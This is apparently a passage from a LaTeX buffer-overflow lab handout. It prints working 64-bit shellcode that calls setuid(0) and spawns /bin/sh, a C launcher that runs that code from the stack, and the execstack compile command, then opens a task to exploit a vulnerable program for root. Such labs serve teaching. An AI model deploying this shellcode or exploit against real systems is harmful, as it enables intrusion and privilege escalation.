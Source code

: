 In the following C code, we put the machine code from the above into a buffer, 
copy it to stack, and then execute the shellcode right from the stack. 
Please compile and run the following code, and see whether a shell is invoked. You can download
the program from the website. 


\begin{lstlisting}
/* call_shellcode.c: You can get it from the lab's website */
/* Launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode_64[] =
  "\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05"   
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
;

int main(int argc, char **argv)
{
   char buf[sizeof(shellcode_64)];
   strcpy(buf, shellcode_64);
   ((void(*)( ))buf)( );
} 
\end{lstlisting}
 

Compile the code above using the following \texttt{gcc} command 
Run the program
and describe your observations. 
Please do not forget to use the {\tt execstack} option, which allows 
code to be executed from the stack; without this option, the program will fail.


\begin{lstlisting}
$ gcc -z execstack -o call_shellcode_64 call_shellcode_64.c
\end{lstlisting}



\section{Task 2: Launching Buffer-Overflow Attack}


\subsection{The Vulnerable Program}

You will be provided with the following program, which has 
a buffer-overflow vulnerability in Line~. Your job
is to exploit this vulnerability and gain the root privilege. 

